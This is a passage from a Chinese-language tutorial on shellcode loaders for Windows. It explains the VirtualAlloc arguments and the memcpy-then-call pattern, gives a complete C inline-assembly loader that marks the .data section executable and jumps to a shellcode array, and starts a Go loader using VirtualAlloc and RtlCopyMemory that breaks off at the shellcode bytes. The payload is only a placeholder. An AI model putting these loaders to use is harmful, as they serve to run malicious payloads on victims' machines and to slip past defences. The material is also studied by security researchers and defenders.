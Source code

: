 >   NULL: 让系统选择内存的基址。
>   ```
>   ```
>   sizeof(buf): 需要分配的内存大小，与Shellcode的大小相同。
>   ```
>   ```
>   MEM_COMMIT | MEM_RESERVE: 提交并保留内存。
>   ```
>   ```
>   PAGE_EXECUTE_READWRITE: 分配的内存页属性为可读、可写、可执行。
>   ```
> 
> 3.复制内存内容:
> 
> - `memcpy(Memory, buf, sizeof(buf));`: 将Shellcode从buf复制到分配的内存中。
> 
> 4.执行Shellcode:
> 
> - `((void(*)())Memory)();`: 将分配的内存地址Memory转换为一个无参的函数指针，并调用该函数。这个操作会执行Memory中存储的Shellcode。

## 内联汇编加载

```c_cpp
#include <windows.h>  
#include <stdio.h>  
//将.data段设置为可读、可写、可执行.默认情况下,数据段是不可执行的,这里通过链接器指令修改其属性.
#pragma comment(linker, "/section:.data,RWE")  
unsigned char shellcode[] = "shellcode";
void main()
{
    __asm
    {
        mov eax, offset shellcode //将shellcode数组的地址（偏移量）加载到寄存器eax中。
        jmp eax  //跳转到寄存器eax中存储的地址,即跳转到shellcode的起始地址，开始执行Shellcode.
    }
}
```

# Go语言加载shellcode

```golang
package main

import (
	"fmt"
	"os"
	"syscall"
	"unsafe"
)
// 定义内存分配和页面属性常量
const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40
)
// 加载DLL和查找函数
var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
	shellcode_buf = []byte{
	  // Shellcode的前部分，以十六进制表示
```